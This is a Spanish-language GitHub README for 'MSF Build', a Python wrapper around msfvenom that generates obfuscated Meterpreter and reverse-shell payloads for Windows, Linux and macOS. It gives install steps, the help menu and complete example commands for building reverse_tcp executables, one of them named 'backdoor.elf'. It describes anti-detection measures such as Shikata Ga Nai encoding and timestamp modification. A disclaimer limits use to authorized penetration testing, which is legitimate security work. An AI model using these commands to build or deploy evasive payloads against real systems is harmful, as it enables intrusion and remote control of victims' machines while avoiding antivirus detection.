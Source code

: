# 🛠️ MSF Build - Advanced Payload Builder

*Herramienta profesional para generar payloads ofuscados con Msfvenom utilizando el codificador Shikata Ga Nai*

![msfbuild](https://github.com/user-attachments/assets/d617ca7f-50f8-46b3-be4b-6ed0567277c0)

## 📜 Descripción
**MSF Build** es una herramienta CLI para generar payloads ofuscados multiplataforma con medidas anti-detección integradas. Utiliza `msfvenom` para crear los payloads y está diseñado para pruebas de penetración éticas.

## ✨ Características
- ✅ Soporte para **Windows**, **Linux** y **macOS**
- 🔄 Ofuscación con **Shikata Ga Nai** y múltiples interaciones.
- 🛡️ Medidas básicas anti-detección (modificación de metadatos)
- 🎨 Interfaz colorida con animaciones
- 🧩 Generación de payloads en múltiples formatos: `exe`, `elf`, `macho`, `python`

## 🚀 Instalación

### Requisitos:
- Python 3.6+
- Metasploit Framework (`msfvenom`)
- Terminal con soporte ANSI

```
# Instalar dependencias
pip install colorama
sudo apt install metasploit-framework  # Para sistemas Debian/Ubuntu

# Clonar repositorio
git clone https://github.com/afsh4ck/MSF-Build.git
cd MSF-Build
```

## 🖥️ Uso

Menú de Ayuda:
```
python3 msfbuild.py -h                                                                                  
    __  ___ _____  ______   ____          _  __     __
   /  |/  // ___/ / ____/  / __ ) __  __ (_)/ /____/ /
  / /|_/ / \__ \ / /_     / __  |/ / / // // // __  / 
 / /  / / ___/ // __/    / /_/ // /_/ // // // /_/ /  
/_/  /_/ /____//_/      /_____/ \__,_//_//_/ \__,_/   
-------------------------------------------------------
     Msfvenom Advanced Obfuscated Payload Builder    
-------------------------------------------------------
                 Developed by: @afsh4ck                

usage: python3 msfbuild.py --os <OS> --arch <ARCH> --type <TYPE> --lhost <IP> --lport <PORT> -o <OUTPUT> [-i ITERATIONS]

options:
  --os {windows,linux,macos}               Sistema operativo objetivo
  --arch {x86,x64}                         Arquitectura objetivo
  --type {exe,elf,macho,python}            Tipo de archivo de salida
  --lhost LHOST                            Dirección IP para conexión reversa
  --lport LPORT                            Puerto para conexión reversa
  -o OUTPUT, --output OUTPUT               Nombre del archivo de salida
  -i ITERATIONS, --iterations ITERATIONS   Iteraciones de ofuscación (solo x86)
  -h, --help                               Mostrar este mensaje de ayuda
```

## 💻 Ejemplos

### Generar ejecutable para Windows x86:
- Por defecto usa el payload: windows/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os windows \
  --arch x86 \
  --type exe \
  --lhost 192.168.1.100 \
  --lport 4444 \
  -o payload.exe \
  -i 10
```
### Generar ejecutable para Linux x64:
- Por defecto usa el payload: linux/x64/meterpreter/reverse_tcp
```
python3 msfbuild.py \
  --os linux \
  --arch x64 \
  --type elf \
  --lhost 10.0.0.5 \
  --lport 8080 \
  -o backdoor.elf
```
### Generar ejecutable para macOS:
- Por defecto usa el payload: osx/x64/shell_reverse_tcp
```
python3 msfbuild.py \
  --os macos \
  --arch x64 \
  --type macho \
  --lhost 172.16.23.45 \
  --lport 6500 \
  -o mac_payload
```

## 🛡️ Medidas de Seguridad

- Modificación de timestamps en archivos .exe
- Advertencias automáticas para configuraciones incompatibles
- Validación estricta de parámetros de entrada

## ⚠️ Disclaimer

Este software está diseñado exclusivamente para:
- Pruebas de seguridad autorizadas
- Investigación en entornos controlados
- Educación en ciberseguridad

El uso malicioso de esta herramienta es estrictamente prohibido. 
El autor no se hace responsable del uso indebido.

## 🥷🏼 Autor
- Autor:       afsh4ck 
- Instagram:   <a href="https://www.instagram.com/afsh4ck">afsh4ck</a>
- Youtube:     <a href="https://youtube.com/@afsh4ck">afsh4ck</a>

## ❤️ Soporte

<a href="https://www.buymeacoffee.com/afsh4ck" rel="nofollow"><img width="250" align="left">
![buy-me-a-coffe](https://github.com/user-attachments/assets/8c8f9e81-334e-469e-b25e-29888cfc9fcc)
</a>

